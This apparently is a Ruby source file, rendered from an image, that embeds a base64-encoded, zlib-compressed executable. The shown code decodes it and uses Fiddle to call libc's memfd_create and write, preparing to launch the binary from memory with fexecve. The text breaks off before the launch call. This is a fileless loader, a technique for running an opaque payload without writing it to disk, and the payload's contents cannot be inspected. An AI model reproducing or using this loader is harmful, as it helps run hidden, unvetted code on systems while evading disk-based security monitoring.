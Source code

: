 ```ruby
t2D99mnGPzeGhLmgsL2x3veKUB8kevKb/vo/SqVHbXlUt8f9Ufs5bB8iBv7g
kL/lq4GHzvrOo6NtT3zxsd27wJ/8Rp3Ddj4u7mn8msX6R4gi6g+O+X2mrYFf
T+P8J4g+4g++7In5W75fM+gPLdYO+ju+5436u75TJ/l7F+qH/f3f8PeG/V1h
f0fEH4r4W7B9BMchvxsukfxwHPvvei5cuHDhwoULFy5cuHDxaQH2LcI+RXhW
2Uu5EQzpRsgtVLxC7VupDPsht1MZnrXaKMO+yB1c+52NUpbwBbrJEfYu5ujm
RtizeJW2f4bKL1B+iHIL5WbEorx3st8i2OsI9vB8WU/5EcorXlYf8rJ5L1Nu
4OL9u2SdD5hugEz9S1SGcV6j8gf0fP9JZfuez08DsK+cR0+QlWEf6/DAwOFQ
R1SbTCqZUHe3+JjY1dm9jx7dpx9rH/37JV7fYLbVom9y+8YfdrBvc9DvQeSa
B9AFLu+9VH+d0x+mevg8AEbNfNpQV38lb4LT5nFzeX4DFmicUS7Oy6Z9U/nz
8qD8f2XaP4wSn+dbqtsvme9Nm/K5Zsb57Kbr+ga15/O5bb5vK++/B9w147RU
CjkoXhXI+TZWNkxTbBNIlABa5u4vu4Tq+8OfNfWtKMTFPyJU339+XCBdtpav
C2AHsfcEy/cpwJMOcQwah+/3eYc8yf+gtnpay/Mf8COix3/gBHu0L9JxeJrm
M0H1VxHptw31cnHOUXuot4H/iS0Jlj1/vlep/Si1h/vYNZonb/8nh/P6UHDY
n39iSje6xSySZWUyKRvKDDK0vCFOIazPG4XpaXxY2YIvG2l5iuytJ3v61aw8
k8pOKilZNbJ6XlYKc2gqm86lNENT8d2hqgWpAkjKiq4r87KWMfR5NK0raU1W
C+n0PHaxSTK2NBhTWR4aCx8blAdHomTPP2ugIjl6aiR8LDbAtpglAlg1PDIu
D0o0ghQdQ/Jw/HgkHJePDw2dGEzIiXAkPihDccJUvmCmet8iBFLc0M9ULGiq
YiibCxxYI5kYlfNi6xhkNZ+VZ5WMSmocYsdxg5rMyIW8ptozI6eH5cl8noYx
qyhkGWcHg+NYEMEWYzCZITE/nzaUScyGbvEsHCUzOFAOiZmsoYkzmYKY07M5
TTfmbarJQjKldiZVqgpHYp1kRplts0p+FonqfAZ3YbGhWy3Pano+mc0wgozb
dC2lEEN6lEsZJAt84uRQnMniA0Obw+/mdRL1rDn2ojZLJ9Gsqlcky9WaEpYH
HOMelHRyCpGIVidWHDy4SMTzOY3nXrVPzn8Fsn4i98jyOsWh/g3A/2/5C4it
6XCqvwL4OLmH8+frvnZz9nzNXYzzh+9v/nvcyf8p/PoYr4HAH9aFF7j+YV3I
568ga00I/rBuBP451ZMcBZs/rN+SiK21gnUoMKw7Afz4P4OsNR74w7oO2M/l
7+H4W8haM5ZrcrwshxzyBywia0zBH9atwMtc//z5/4D6R6gM62BgsKujx7z/
j5G9Jg1tqqeE7yUAf/1/yPmHghxz9nzZ5s84//4gy/x4+Tj+NecP36fAz3AX
nFvuoFc5f1h/ADdw9vz5LyH2888XTLZx9rz/Fc7fqY7Syf91zv9kiGV+wvPj
SX7rI3Mcnl/KdZWd1e358V/Fr4DNH9axa5/Q/yPE1syV62SpP9TH1nN+cB1/
iaxTBH+oz7u53+KOB/R/j/Mvr5PpQ1DoAf51AusP69FQF5sn7w9oFCwd+MO6
r6uruj1//9pK++ef2cB/p4O/navVE45S/2Wa2OeQ9azO3z8aUPVn3+BBi/1c
8E35O/jv7LG4jXPg/f8DwekbgQ==
DEFLATED

exe = Zlib.inflate(Base64.decode64(exe))

libc = Fiddle.dlopen('/lib/x86_64-linux-gnu/libc.so.6');

# int memfd_create(const char *name, unsigned int flags)
memfd_create = Fiddle::Function.new(
    libc['memfd_create'],
    [Fiddle::TYPE_VOIDP, Fiddle::TYPE_INT],
    Fiddle::TYPE_INT
)

# ssize_t write(int fd, const void *buf, size_t count);
write = Fiddle::Function.new(
    libc['write'],
    [Fiddle::TYPE_INT, Fiddle::TYPE_VOIDP, Fiddle::TYPE_SIZE_T],
    Fiddle::TYPE_SSIZE_T
);

# int fexecve(int fd, char *const argv[], char *const envp[]);
fexecve = Fiddle::Function.new(
    libc['fexecve'],
    [Fiddle::TYPE_INT, Fiddle::TYPE_VOIDP, Fiddle::TYPE_VOIDP],
    Fiddle::TYPE_INT
);

fd = memfd_create.call('exec', 0)

written = write.call(fd, exe, exe.length)

argv0 = Fiddle::Pointer.malloc(5)
```